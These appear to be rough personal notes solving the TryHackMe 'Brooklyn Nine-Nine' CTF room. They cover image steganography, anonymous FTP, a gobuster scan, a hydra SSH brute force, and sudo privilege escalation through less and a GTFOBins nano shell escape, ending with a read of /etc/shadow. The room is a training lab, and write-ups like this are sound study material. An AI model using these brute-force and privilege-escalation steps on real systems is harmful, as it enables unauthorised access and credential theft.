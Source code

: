 Rough Notes - Brooklyn Nine-Nine - TryHackMe CTF

Webpage

- Source code --> clue that photo has steg hidden

Steg
- Photo reveals a password for user holt

NMAP
-ssh,ftp
- ftp server allows anonymous
- text file --> clue that jake has weak password

gobuster
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db
- nothing

hydra 
- brute force ssh for user jake, password found quickly

foothold on  SSH

sudo -l --> usr/bin/less
/usr/bin/less /root/root.txt --> flag


cd /home 
cd jake 
cd holt --> flag 

su holt --> password from before

sudo -l
/usr/bin/nano 

GTFOBins --> nano --> root 
sudo nano
^R^X
reset; sh 1>&0 2>&0

cat /etc/shadow --> amy hash

cd /var/www/html --> see photo.jpg
python3 -m http.server --> download photo.jpg 
stegseek --> "Stillnoob was here" -- rabbit hole





